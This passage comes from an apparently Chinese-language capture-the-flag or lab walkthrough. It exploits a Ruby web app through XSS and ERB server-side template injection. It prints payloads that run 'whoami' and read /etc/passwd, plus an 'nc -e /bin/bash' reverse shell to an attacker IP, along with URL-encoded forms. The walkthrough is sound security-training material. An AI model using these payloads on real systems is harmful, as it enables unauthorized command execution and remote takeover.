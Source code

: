 五种近源渗透工具，还有一个搜索框。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202409071157958.png" alt="image-20240907101347822" style="zoom:33%;" />

疑似存在xss注入漏洞，随便输入目录会出现：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202409071157959.png" alt="image-20240907101743045" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202409071157960.png" alt="image-20240907101804627" style="zoom:50%;" />

是一个`ruby`的相关网页。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202409071157961.png" alt="image-20240907103018432" style="zoom:33%;" />

### XSS+SSTI(ERB)

尝试一下是否可以执行相关xss命令：https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#injecting-inside-raw-html

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202409071157962.png" alt="image-20240907102029428" style="zoom:50%;" />

可以执行相关命令，尝试模板注入：

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby

```text
<%= 7*7 %>
%3C%25%3D%207%2A7%20%25%3E
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202409071157963.png" alt="image-20240907103559313" style="zoom:50%;" />

发现执行成功！

```text
<%= system("whoami") %>
%3C%25%3D%20system%28%22whoami%22%29%20%25%3E
true

<%= system('cat /etc/passwd') %>
%3C%25%3D%20system%28%27cat%20%2Fetc%2Fpasswd%27%29%20%25%3E
true
```

发现只能执行得到true结果，似乎标志着执行成功？尝试反弹shell：

```bash
<%= system('nc -e /bin/bash 192.168.10.102 1234') %>
%3C%25%3D%20system%28%27nc%20%2De%20%2Fbin%2Fbash%20192%2E168%2E10%2E102%201234%27%29%20%25%3E
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202409071157964.png" alt="image-20240907104304272" style="zoom:50%;" />

### 其他办法

听tao神说似乎可以工具一把梭，尝试一下：
